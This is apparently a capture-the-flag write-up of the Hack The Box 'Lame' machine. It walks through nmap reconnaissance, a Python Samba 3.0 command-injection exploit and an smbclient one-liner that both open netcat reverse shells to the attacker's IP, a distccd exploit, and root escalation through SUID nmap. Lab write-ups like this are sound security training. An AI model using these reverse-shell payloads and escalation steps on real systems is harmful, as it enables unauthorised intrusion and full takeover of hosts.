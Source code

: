 ```yaml
---
description: https://app.hackthebox.com/machines/1
---
```


# Lame

**Difficulty: **<mark style="color:green;">**EASY**</mark>

## Reconnaissance

### Nmap

```java
Nmap scan report for 10.10.10.3                                                                                                                                                                     
Host is up (0.071s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 600fcfe1c05f6a74d69024fac4d56ccd (DSA)
|_  2048 5656240f211ddea72bae61b1243de8f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-03-24T23:45:31-04:00
|_clock-skew: mean: -2h59m31s, deviation: 2h49m44s, median: -4h59m33s
```

### vsftp Recon

Starting out by making some recon on the **ftp** server with the version **2.3.4** we see in **searchsploit** that there is an exploit that get us access to the system.

I will let this for later.&#x20;

<figure><img src="../../../../.gitbook/assets/searchsploit_vsftp.png" alt=""><figcaption></figcaption></figure>

### Samba 3.0 Recon

Using **smbmap** to see if using no credentials, we can see something.

<figure><img src="../../../../.gitbook/assets/smb_enum.png" alt=""><figcaption></figcaption></figure>

In effect we see that there is a directory called **tmp**.

<figure><img src="../../../../.gitbook/assets/smb_enum.png2.png" alt=""><figcaption></figcaption></figure>

There are some directories to get in, but there is nothing special so, I'll use searchsploit to see if there is an exploit for **samba 3.0.**

<figure><img src="../../../../.gitbook/assets/smb_enum.png3.png" alt=""><figcaption></figcaption></figure>

Here we found an exploit for it, let's see what's inside.

<figure><img src="../../../../.gitbook/assets/smb_enum4.png" alt=""><figcaption></figcaption></figure>

Analyzing the script, we see that once you connect to the samba service, in the username credentials we inject the payload using '**\`**' following by the reverse shell that we want and closing with it too.&#x20;

We need to use **ntlmv1** too as the script is doing. &#x20;

### Distccd checker

<figure><img src="../../../../.gitbook/assets/distcc_checker.png" alt=""><figcaption></figcaption></figure>

Using nmap and their checker scripts, we can check if the service **3632(Distccd)** is vulnerable, in fact is it.

## Exploitation

### vsFTP

The **vsftp service** in this machine is not vulnerable, the reason is because the version that is using is a version from **2011** and over.&#x20;

<figure><img src="../../../../.gitbook/assets/vsftp_description_exploit.png" alt=""><figcaption></figcaption></figure>

### SAMBA 139/tcp + 445/tcp

So, knowing all the information to make the exploit, I create a simple script in python3 to exploit this.

Before to run the script you need to change some things to the script and been listening with a **netcat** session.

{% code title="Samba 3.0 Exploit" %}
```python
#!/usr/bin/python3

from smb.SMBConnection import SMBConnection
import sys

target_ip = sys.argv[1]
port = 139

def get_shell(target_ip, port): # 139 by default

    username = "` " + "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 4444 >/tmp/f" + " `" # Change the IP to your IP and the port if is necessary

    connection = SMBConnection(username, "na", "na", "na")

    connection.connect(target_ip,int(port))


if __name__ == '__main__':

    get_shell(target_ip, port)
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/smbexploitexec (2).png" alt=""><figcaption></figcaption></figure>

As you can see, we get access, and we rooted the machine by exploiting the **samba 3.0 service**.&#x20;

You can exploit this using this one liner by using smbclient, more easy.

```bash
smbclient  //10.10.10.3/tmp -N --command='logon "/=`nohup nc 10.10.14.25 443 -e /bin/bash`"' --option='client min protocol=NT1'
```

### Distccd - 3632

To exploit **distccd service** I'll use an exploit from **github.**

* [https://github.com/angelpimentell/distcc\_cve\_2004-2687\_exploit](https://github.com/angelpimentell/distcc\_cve\_2004-2687\_exploit)

<figure><img src="../../../../.gitbook/assets/distexploit.png" alt=""><figcaption></figcaption></figure>

Download the script and executed as in the following image.

<figure><img src="../../../../.gitbook/assets/distccd-exec.png" alt=""><figcaption></figcaption></figure>

Now I want to upgrade my shell so I will send a bash with netcat to the port 4444.

<figure><img src="../../../../.gitbook/assets/distccd-exec2.png" alt=""><figcaption></figcaption></figure>

Now start upgrading your **tty** using the following commands:

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo ; fg
reset
export TERM=xterm
export SHELL=bash
```

### Privesc (Distccd)

Once done that, start enumerating possible ways to exploit manually the linux system.

<figure><img src="../../../../.gitbook/assets/nmapprivesc1.png" alt=""><figcaption></figcaption></figure>

We're seeing here that the nmap binary is running as suid, to expoloit this type;

```
nmap --interactive
!sh
```

<figure><img src="../../../../.gitbook/assets/nmap_exploiting.png" alt=""><figcaption></figcaption></figure>

In result you will get a shell as the root user.
